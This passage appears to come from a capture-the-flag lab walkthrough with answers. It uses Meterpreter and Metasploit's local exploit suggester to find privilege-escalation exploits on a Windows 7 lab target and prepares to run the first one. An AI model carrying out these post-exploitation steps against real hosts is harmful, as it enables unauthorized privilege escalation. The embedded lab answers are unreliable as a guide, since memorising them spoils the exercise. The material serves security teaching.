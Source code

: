 - What build of Windows is the system?

    ```bash
    meterpreter > sysinfo
    Computer        : DARK-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 2
    Meterpreter     : x86/windows
    ```

- Now that we know some of the finer details of the system we are working with, let's start escalating our privileges. First, what is the architecture of the process we're running?
> x64

- Now that we know the architecture of the process, let's perform some further recon. While this doesn't work the best on x64 machines, let's now run the following command `run post/multi/recon/local_exploit_suggester`. *This can appear to hang as it tests exploits and might take several minutes to complete*

    ```bash
    meterpreter > run post/multi/recon/local_exploit_suggester

    [*] 10.10.169.246 - Collecting local exploits for x86/windows...
    [*] 10.10.169.246 - 36 exploit checks are being tried...
    [+] 10.10.169.246 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
    nil versions are discouraged and will be deprecated in Rubygems 4
    [+] 10.10.169.246 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
    [+] 10.10.169.246 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
    [+] 10.10.169.246 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
    [+] 10.10.169.246 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
    [+] 10.10.169.246 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
    [+] 10.10.169.246 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
    [+] 10.10.169.246 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
    [+] 10.10.169.246 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
    ```

- Running the local exploit suggester will return quite a few results for potential escalation exploits. What is the full path (starting with exploit/) for the first returned exploit?
> exploit/windows/local/bypassuac_eventvwr

- Now that we have an exploit in mind for elevating our privileges, let's background our current session using the command `background` or `CTRL + z`. Take note of what session number we have, this will likely be 1 in this case. We can list all of our active sessions using the command `sessions` when outside of the meterpreter shell.

- Go ahead and select our previously found local exploit for use using the command `use FULL_PATH_FOR_EXPLOIT`
